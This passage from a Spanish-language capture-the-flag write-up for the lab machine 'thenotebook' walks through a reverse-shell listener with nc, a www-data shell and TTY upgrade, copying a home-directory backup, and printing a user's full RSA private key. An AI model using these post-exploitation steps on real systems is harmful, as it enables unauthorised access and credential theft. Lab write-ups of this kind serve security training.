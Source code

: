 ```R
❯ sudo nc -nlvp 443
```
*Nos abrimos un lister por el puerto 443*

# Explotación

![[Pasted image 20241006215658.png]]
*Ahora vemos que lo hemos subido...*

```R
$ whoami
www-data
```
*Vemos que hemos conseguido acceso al servidor...*

```R
$ script -c bash /dev/null
❯ stty raw -echo;fg
		reset xterm
www-data@thenotebook:/$ export TERM=xterm
```
*Ahora ya tenemos una tty funcional.*

```R
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0	 apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz

www-data@thenotebook:/var/backups$ cp ./home.tar.gz /tmp/
```
*Ahora vemos que tenemos la carpeta copiada en el  /tmp/*

```R
www-data@thenotebook:/tmp$ tar -xf home.tar.gz
```
*Extraemos el contenido...*

```R
www-data@thenotebook:/tmp/home/noah/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```